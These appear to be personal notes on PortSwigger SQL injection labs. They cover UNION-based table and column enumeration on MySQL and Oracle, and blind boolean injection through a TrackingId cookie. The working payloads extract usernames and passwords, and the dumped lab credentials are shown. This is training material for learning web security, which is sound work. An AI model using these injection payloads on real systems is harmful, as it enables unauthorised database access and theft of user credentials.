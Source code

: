 # UNION attacks

MySQL end of query = `--` and `#`, **try both**.

**PS Lab:** `SQL injection attack, querying the database type and version on MySQL and Microsoft` rejected my accurate queries because I ended my query with `--` instead of `#`. Is this accurate of a real-world setup? I'm not sure.


### Lab: SQL injection attack, listing the database contents on non-Oracle databases
This is a non-Oracle database, so we need to make user of information_schema.tables
>Pets' union select table_name,NULL from information_schema.tables--

This returns all of the tables in the database.

Look for a non-standard table `users_xgouhg`

>Pets' union select * from users_xgouhg--

```
administrator
8bd235i2g39fg3h6865g
```

Chaching 💸

### SQL injection attack, listing the database contents on Oracle
Same thing, just with Oracle. Ezpz.

>Pets' union select table_name, null from all_tables--

Table name `USERS_YXUZFJ`

`Pets' union select COLUMN_NAME,null from all_tab_columns where table_name='USERS_YXUZFJ'--`
Columns:

```
PASSWORD_ODOKFU  
USERNAME_DZRUHS
```

```
administrator
b33a0q24met5szk298fj

carlos
yutk3v2n7a8tt6wco6n2

wiener
95ca28n08tuaahvqbeef
```

## Blind SQL injection with conditional responses

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1) > 'm'--;

Welcome back!

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1) = 'y'--;

First letter is `y`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),2,1) = '5'--;

Second character is `5`. Numbers come before letters in SUBSTRING() !

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),3,1) = 'l'--;

3rd character is `l`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),4,1) = '1'--;

4th characters is `1`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),5,1) = '0'--;

5th character is `0`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),6,1) = 'g'--;

6th character is `g`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and substring((SELECT password FROM users where username='administrator'),7,1) = 'm'--;

7th character is `m`

## Screw it, I'm brute forcing this

y5l10gmkw1je153vi5zd
